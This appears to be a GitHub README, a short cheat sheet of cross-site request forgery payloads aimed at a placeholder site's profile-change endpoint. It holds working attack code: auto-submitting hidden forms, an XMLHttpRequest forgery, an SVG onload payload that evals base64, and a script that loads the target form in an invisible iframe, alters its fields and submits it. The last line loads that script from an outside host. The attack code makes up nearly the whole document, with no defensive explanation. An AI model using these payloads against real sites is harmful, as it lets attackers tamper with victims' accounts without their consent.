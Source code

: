 # csfr-hacking

### Basic form
```html
<form name="pls" action="https://xxx.fr/index.php?action=profile" method="post">
<div class="form-group">
		<label>Username:</label>
		<input name="username" value="devsid" type="text">
		</div>
		<br>		
		<div class="form-group">
		<label>Status:</label>
		<input name="status"checked="checked" type="checkbox">
		</div>
		<br>	
		<button type="submit">Submit</button>
</form>
<script language="javascript">document.pls.submit();</script>
```

### Basic form
```html
<html><body>

  <form name="csrf" action="https://xxx.fr/index.php?action=profile" method="POST">
    <input type="hidden" name="username" value="aaa">
    <input type="hidden" name="status" value="on">
  </form>

  <script type="text/javascript">document.csrf.submit();</script>
</body></html>
```

### Form using XMLHttpRequest
```html
<script>
var formData = new FormData();
formData.append("username", "test");
formData.append("status", "on");
var request = new XMLHttpRequest();
request.open("POST", "https://xxx.fr/index.php?action=profile");
request.send(formData);
</script>

### Encoded payload 
```js
<svg/onload=eval(atob('<base 64 payload>'));//>
```

### You can also host a script and then call it if the target is XSS vulnerable
```js
// On charge le formulaire dans une frame invisible
document.write('<iframe id=\"iframe\" src=\"https://xxx.fr/index.php?action=profile\" width="0" height="0" onload=\"pwn()\"></iframe>');

//On modifie les champs à notre guise
function pwn() {
        document.getElementById('iframe').contentDocument.forms[0].username.value='titi'; 
        document.getElementById('iframe').contentDocument.forms[0].status.checked=true;
        document.getElementById('iframe').contentDocument.forms[0].status.disabled=false
        document.getElementById('iframe').contentDocument.forms[0].submit();
}
```

### Load
```js
<script src="http://XXXXXXX/csrf.js"></script>
```